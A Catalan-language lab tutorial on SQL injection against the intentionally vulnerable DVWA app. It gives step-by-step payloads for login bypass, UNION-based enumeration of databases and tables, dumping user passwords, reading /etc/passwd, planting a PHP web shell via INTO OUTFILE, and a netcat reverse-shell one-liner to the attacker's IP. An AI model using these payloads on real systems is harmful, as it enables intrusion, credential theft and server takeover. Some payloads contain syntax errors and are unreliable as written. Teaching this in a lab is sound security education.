# 01. Vulnerabilitat SQL Injection

**SQL Injection (SQLi)** és una vulnerabilitat que permet a un atacant **modificar les consultes SQL** que realitza una aplicació a la seva base de dades. L'explotació d'aquesta vulnerabilitat permet a un atacant consultar, modificar o eliminar dades a les que no hauria de tenir accés.

## Objectius d'una Injecció SQL:

- ✅ **Bypass de l'autenticació** - Iniciar sessió sense credencials proporcionar credencials
- ✅ **Lectura de dades sensibles** - Obtenir de la BD: usuaris, passwords, emails, targetes de crèdit, dades de salut, etc.
- ✅ **Modificació de dades** - Canviar preus, quantitats, permisos, informació, etc.
- ✅ **Eliminació de dades** - Eliminar entrades o taules de la base de dades.
- ✅ **Execució de codi remot** - Aconseguir RCE via SQL (en alguns casos molt concrets).
- ✅ **Compromís total del servidor** - Via escalada de privilegis combinat amb altres vulnerabilitats.

## Com funciona una Injecció SQL?

**Construcció d'una consulta SQL amb PHP**

```php
//Consulta SQL amb variables PHP
$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

**Input legítim i Consulta que es genera**:

```php
// Camps d'usuari i contrasenya del formulari
Username: admin
Password: 1234
```

```sql
-- Input normal: L'usuari és admin i la constrasenya es 1234
SELECT * FROM users WHERE username = 'admin' AND password = '1234'
```

**Exemple Input maliciós i Consulta que es genera**:

```
Username: admin' or 1='1
Password: (qualsevol cosa o buit)
```

```sql
SELECT * FROM users WHERE username = 'admin' OR 1='1' AND password = ''
```

**Interpretem la consulta**

La injecció es produeix a: 'admin` `' --> 'admin`' OR 1='1` '

```sql
SELECT * FROM users WHERE
    username = 'admin'        -- FALSE (si no existeix admin)
    OR                        -- O
    1='1'                     -- TRUE (sempre)
    AND
    password = ''             -- No importa perquè OR ja és TRUE
```

## Formes d'explotar una SQL Injection

### SQLi Clàssica

És la més fàcil d'explotar. L'atacant veu els resultats de les consultes que realitza directament a la resposta de l'aplicació.



#### **ERROR-based SQLi**

L'atacant aprofita els **missatges d'error** generats per la BBDD per obtenir informació (estructura de la BD, noms de les taules, de les columnes, etc.).

Per verificar si l'aplicació disposa d'aquesta vulnerabilitat **hem d'aconseguir trencar la consulta SQL** per provocar un error a l'aplicació i aquest es mostri per pantalla.

**Exemple Consulta SQL - DVWA**:

```sql
-- Input: 1
SELECT first_name, last_name FROM users WHERE user_id='1';
```

```sql
-- Input: 1'
SELECT first_name, last_name FROM users WHERE user_id='1'';
```



```sql
-- Error MySQL
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''1''' at line 1
```

**Informació obtinguda**:

- ✅ Confirmem vulnerabilitat SQLi
- ✅ Versió de MariaDB/MySQL
- ✅ Una petita part de la consulta original

**Passos per extreure informació de la BBDD:**

### **1. Obtenir informació sense trencar la consulta**

Hi ha molts "payloads" que podem fer servir. Depenent de l'aplicació poden ser vàlids uns o altres com per exemple:

- `1' OR '1'='1`
- `' OR '1'='1`
- `' OR 1=1#`
- `' OR 1=1-- -`

Amb aquests payloads obtindriem tots els registres de la taula que estem fent la consulta.

Es realitza la comprovació per cada entrada de la taula, com la operació `OR 1=1` sempre és TRUE (es compleix la condició) sempre retornarà aquell resultat.



#### **UNION-based SQLi**

L'atacant aprofita **l'operador UNION** de SQL per concatenar, a una consulta original de l'aplicació, **una segona consulta** que pot controlar i que permeti retornar informació addicional juntament amb el resultat original.

El SGBD de MySQL disposa de **funcions d'informació**, que mostren dades rellevants sobre la seva estructura. Per exemple: database(), version(), user(), @@hostname, @@basedir, @@datadir, etc.

Per extreure el nom de la BD podem fer: `1' UNION SELECT database() OR 1='1`

- També podríem utilitzar el comentari SQL `-- -` ó `#` --> `1' union select database()#`

```sql
-- Input:
' UNION SELECT database() OR 1='1
```



```sql
-- Error MySQL
The used SELECT statements have a different number of columns
```

### **2. Esbrinar el número de columnes per evitar l'error a la consulta**

La clàusula `ORDER BY` permet ordenar les files retornades per una consulta indicant el número de columna de referència pel qual s'ha de realitzar l'ordenació (primera, segona, tercera, etc.).

Si la consulta es realitza amb 3 columnes, l'ORDER BY funcionarà si s'indica ORDER BY 1, ORDER BY 2 o ORDER BY 3, però donarà error si l'índex especificat es mes gran que l'existent.

```sql
-- Input 1: OK
1' ORDER BY 1#
```

```sql
-- Input 2: OK
1' ORDER BY 2#
```

```sql
-- Input 3: ERROR
1' ORDER BY 3#
```


**Podem confirmar que la consulta es realitza sobre 2 columnes**

### **3.Realitzar consultes inicials amb l'operador UNION i funcions MySQL**

Podem extreure informació personalitzada respectant la consulta amb 2 columnes.

Fem una consulta amb camp1 nom de la base de dades `database()` i el camp 2 la versió `version()`.

```sql
-- Input:
' UNION SELECT database(), version()#
```



```sql
-- Input:
' UNION SELECT user(), @@hostname#
```



### **4. Obtenir el nom de totes les Bases de Dades**

MySQL disposa d'una base de dades on guarda tota la informació de la resta de base de dades.

- Aquesta **base de dades** es diu `information_schema` i és la que ens ajudarà a descobrir tota la informació.



- Per obtenir el nom de totes les bases de dades dispoem de la **taula** `schemata`.



- La **columna** amb el nom de les bases de dades es diu `schema_name`.



Al conèixer la Base de Dades `information_schema`, la Taula `schemata` i la columna `schema_name` podem fer la següent consulta:

```sql
-- Input:
' union select 1,schema_name from information_schema.schemata#
```



**Ara podem fer consultes a qualsevol Base de Dades disponible i extreure informació.**

### **5. Obtenir el nom de les taules d'una Base de Dades (DVWA)**

Ens centrarem en la Base de Dades de DVWA d'on extraurem el màxim d'informació possible.

- La **base de dades** `information_schema`
- La **taula** `tables` (d'information_schema)
- La **columna** `table_schema` (indica el nom de la Base de Dades)
- La **columna** `table_name` (indica el nom de la Taula de la Base de Dades)



**OBTENIR EL NOM DE TOTES LES TAULES D'INFORMATION_SCHEMA**

```sql
-- Input:
' union select null,table_name from information_schema.tables#
```



**OBTENIR EL NOM DE LES TAULES DE DVWA**

```sql
-- Input:
' union select 1,table_name from information_schema.tables where table_schema = 'dvwa'#
```



### **6. Obtenir el nom de les columnes d'una taula (DVWA - USERS)**

Sabem que el nom de la base de dades és `DVWA` i que disposa d'una taula que es diu `USERS`. Anem a extreure la informació d'aquesta taula en concret. Com hem fet abans, necessitem saber quines columnes disposa la taula USERS de DVWA.

La taula `columns` d'information_schema disposa de les columnes `table_schema`, `table_name` i `column_name`que ens permetrà fer consultes a la base de dades DVWA i la taula USERS.



- La **base de dades** `information_schema`
- La **taula** `columns` (d'information_schema)
- La **columna** `table_schema` (indica el nom de la Base de Dades)
- La **columna** `table_name` (indica el nom de la Taula de la Base de Dades)
- La **columna** `column_name` (indica el nom de la columna de la Taula)

**OBTENIR EL NOM DE TOTES LES COLUMNES DE LA TAULA USERS DE LA BASE DE DADES DVWA**

```sql
-- Input:
' union select 1,column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'#
```



### **7. Fer consultes a la taula USERS de DVWA**

Si fem un recompte podem veure que la taula USERS disposa de `8 columnes`. Però com estem consultant a la mateixa base de dades que estem atacant i coneixem el nom de les columnes podem fer consultes directament a la base de dades DVWA.

Fem la consulta definitiva per obtenir els `USUARIS` i les `CONTRASENYES`.

```sql
-- Input:
' union select user,password from users#
```



### **8. EXTRA - Fer consultes amb sortida limitada (LIMIT 1)**

Les consultes que hem estat realitzant ens permetien obtenir tota la informació de cop. Però si hi ha una limitació, per exemple, d'una única fila, podriem saltar-nos aquesta limitació?

```sql
-- Input simulant limitació:
' or true limit 1#
```



Podem utilitzar l'operador `CONCAT` i el valor hexadecimal `0x20 de l'Espai` o un altre caràcter per fer servir de delimitador entre els camps.

```sql
-- Input:
' union 1,select concat(users(),0x20,database()) limit 1#
```

Només es mostrarà `1 fila` però `2 camps junts`.



**La millor solució és fer ús de `GROUP_CONCAT`**

Fent servir `GROUP_CONCAT`, en una única fila podem obtenir tots els resultats de la consulta. Fem la prova amb les diferents consultes hem anat realitzant:

ESBRINAR LES BASES DE DADES:



ESBRINAR ELS TAULES DE DVWA:



ESBRINAR COLUMNES DE LA TAULA USUARIS:



RECUPERAR USUARIS I CONTRASENYES:



### **9. EXTRA - Carregar fitxers del sistema**

Amb els permisos adequats i amb la funció `LOAD_FILE()` es pot llegir el contingut de fitxers del sistema.



```sql
-- Input:
' union all select 1,load_file('/etc/passwd')#
```



### **10. FINAL - Aconseguir Remote Code Execution (RCE)**

Per exportar informació en diferents formats com JSON, XML, CSV, es poden fer consultes a una base de dades i utilitzar `INTO OUTFILE` per guardar el resultat en un fitxer.

Podem aprofitar aquesta opció per crear una backdoor amb PHP (un fitxer que rep peticions get i executa comandes del sistema)

```sql
-- Input:
' union select NULL,'<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/ciberback.php' -- -
```



**Tot i mostrar-se un error podeu confirmar que s'ha creat el fitxer amb la backdoor de PHP**



**Demostració de l'ús de la backdoor PHP rudimentaria**

```bash
#IP del DVWA: 192.168.1.60
```



**Posar-nos amb escolta per un port amb NETCAT (NC)**

```bash
#IP del Kali: 192.168.1.59
nc -lvnp 4444
```



**Utilitzem un payload obtenir una Shell Bash**

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/

```bash
#PAYLOAD AMB IP DEL KALI (ATACANT)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.1.59 4444 >/tmp/f

#PAYLOAD ENCODED
http://192.168.1.60/ciberback.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.1.59%204444%20%3E%2Ftmp%2Ff
```


